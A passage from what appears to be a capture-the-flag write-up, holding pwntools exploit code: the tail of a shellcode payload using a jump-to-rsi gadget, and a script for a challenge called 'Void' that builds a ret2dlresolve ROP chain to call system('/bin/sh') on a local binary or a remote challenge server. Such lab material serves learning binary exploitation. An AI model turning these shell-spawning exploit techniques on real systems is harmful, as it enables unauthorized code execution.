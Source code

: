     pl = flat(
        shell.ljust(0x100,b'a'),
        jump_rsi, 
    )
    s(pl)





    p.interactive()

### Void
    #!/usr/bin/python3

    from pwn import *
    import argparse
    from time import *


    parser = argparse.ArgumentParser(description='Exploit script')
    parser.add_argument('remote', nargs='?', default=None, help='Run the exploit on a remote server')
    args = parser.parse_args()

    exe = ELF('./void_patched', checksec=False)
    #libc = ELF('./libc.so.6', checksec=False)
    #ld = ELF('./ld-linux-x86-64.so.2', checksec=False)
    #libc = exe.libc

    context.binary = exe
    context.terminal = ['wt.exe','-d', '.', 'wsl.exe', '-d', 'Ubuntu-22.04']

    info = lambda msg: log.info(msg)
    sla = lambda msg, data: p.sendlineafter(msg, data)
    sa = lambda msg, data: p.sendafter(msg, data)
    sl = lambda data: p.sendline(data)
    s = lambda data: p.send(data)
    sln = lambda msg, num: sla(msg, str(num).encode())
    sn = lambda msg, num: sa(msg, str(num).encode())

    def GDB():
        if args.remote is None:
            gdb.attach(p, gdbscript='''
            b* vuln+31

            c
            ''')
            input()

    if args.remote:
        p = remote('94.237.55.128',30805)  
    else:
        p = process(exe.path)  

    #GDB()

    dlresolve = Ret2dlresolvePayload(exe, symbol='system', args=['/bin/sh\0'])
    rop = ROP(exe)
    rop.read(0, dlresolve.data_addr)
    rop.raw(rop.ret[0])
    rop.ret2dlresolve(dlresolve)
    raw_rop = rop.chain()
